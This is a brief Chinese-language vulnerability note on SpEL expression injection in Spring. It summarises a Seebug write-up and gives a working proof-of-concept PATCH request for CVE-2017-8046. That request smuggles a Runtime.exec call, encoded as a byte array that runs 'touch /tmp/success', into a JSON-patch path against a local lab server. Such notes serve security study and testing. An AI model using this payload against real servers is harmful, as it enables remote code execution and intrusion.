 以下内容是根据https://paper.seebug.org/322/得来的

原理：

>首先我们看Spring Web Flow的这个类
>
>![image-20220304172110759](..\..\public\img\spring-web-flow-2.png)
>
>
>
>里面有这一行代码,是通过浏览器接收field然后进行SpringEL解析
>
>
>
>![image-20220304172140273](..\..\public\img\spring-web-flow-3.png)



![image-20220304165837541](..\..\public\img\spring-web-flow-1.png)



#### **CVE-2017-8046**

```
PATCH /customers/1 HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json-patch+json
Content-Length: 202

[{ "op": "replace", "path": "T(java.lang.Runtime).getRuntime().exec(new java.lang.String(new byte[]{116,111,117,99,104,32,47,116,109,112,47,115,117,99,99,101,115,115}))/lastname", "value": "vulhub" }]
```
